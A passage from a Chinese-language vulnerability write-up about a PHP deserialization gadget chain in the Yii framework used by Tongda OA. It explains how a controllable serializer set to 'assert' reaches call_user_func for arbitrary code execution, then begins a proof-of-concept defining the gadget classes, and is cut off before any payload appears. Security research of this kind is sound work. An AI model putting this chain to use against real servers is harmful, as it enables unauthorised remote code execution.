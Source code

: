 ```php
        if (is_array($value) && !($value[1] instanceof Dependency && $value[1]->isChanged($this))) {
            return $value[0];
        }

        return false;
    }
    public function buildKey($key)
    {
        if (is_string($key)) {
            $key = ctype_alnum($key) && StringHelper::byteLength($key) <= 32 ? $key : md5($key);
        } else {
            $key = md5(json_encode($key));
        }

        return $this->keyPrefix . $key;
    }
    protected function getValue($key)
    {
        if (isset($this->_cache[$key]) && ($this->_cache[$key][1] === 0 || $this->_cache[$key][1] > microtime(true))) {
            return $this->_cache[$key][0];
        }

        return false;
    }
```

这里可以看到有call\_user\_func的调用，get的参数$key的值是由getTypeCategory中的$this-&gt;type提供的，这个是完全可控的，而buildKey对于全是字母数字的长度32以下的则不做任何修改。getValue中的$this-&gt;\_cache也是完全可控的，所以这也就说明get函数中的$value可控，并且在call\_user\_func中的$this-&gt;serializer也是在反序列化的时候完全可控，这样这里的call\_user\_func就导致了任意代码执行。由于目标是通达OA，php版本为php5，这里用$this-&gt;serializer赋值为assert就可以类似eval的进行任意代码执行。

#### poc

下面是完整的poc

```php
<?php
//仅用于安全研究与授权测试，使用此漏洞造成的任何攻击影响均与本文作者无关。
namespace yii\db {
    class ColumnSchemaBuilder {
        protected $type = 'x';
        public $categoryMap;

        function __construct($categoryMap) {
            $this->categoryMap = $categoryMap;
        }
    }

    class Connection {
        public $pdo = 1;

        function __construct($dsn) {
            $this->dsn = $dsn;
        }
    }

    class BatchQueryResult {
        private $_dataReader;

        function __construct($dataReader) {
            $this->_dataReader = $dataReader;
        }
    }
```